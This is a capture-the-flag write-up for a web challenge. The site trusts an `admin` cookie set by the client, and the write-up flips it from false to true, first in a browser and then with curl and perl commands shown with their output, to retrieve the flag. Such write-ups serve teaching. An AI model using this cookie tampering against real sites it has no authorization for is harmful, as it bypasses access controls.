


nom nom nom
===========

Flag: **come_to_the_dark_side**

The challenge shows an image of Cookie Monster and a link to
<http://zeromutarts.de:23456/>.

Visiting the link takes us to a page that says "Sorry, you must be admin to get
the flag!":

Given the Cookie Monster reference, we probably need to modify cookies for the
site.

Examining the cookies in the response to our HTTP request for the page via the
browser developer console, we see that there is indeed an `admin` cookie that is
set to `false`:

Using a browser extension like [Edit this
Cookie](https://chrome.google.com/webstore/detail/edit-this-cookie/fngmhnnpilhplaeedifhccceomclgfbg
"Edit this Cookie"), we can set the value for the `admin` cookie to `true`:

The browser sends this edited cookie in subsequent HTTP requests to the server,
and since we are now an admin according to the cookie, we are given the flag:

We could also get, edit, and send the modified cookie with `curl` to retrieve
the flag:

    $ curl http://zeromutarts.de:23456/ -c cookie.txt
    sorry, you have to be admin to get the flag!
    $ cat cookie.txt
    # Netscape HTTP Cookie File
    # http://curl.haxx.se/rfc/cookie_spec.html
    # This file was generated by libcurl! Edit at your own risk.

    zeromutarts.de  FALSE   /   FALSE   0   admin   false
    $ perl -p -i -e "s/false/true/g" cookie.txt
    $ curl http://zeromutarts.de:23456/ -b cookie.txt
    flag{come_to_the_dark_side}

The flag is thus `come_to_the_dark_side`.

[« Return to challenge board](../README.md "Return to challenge board")
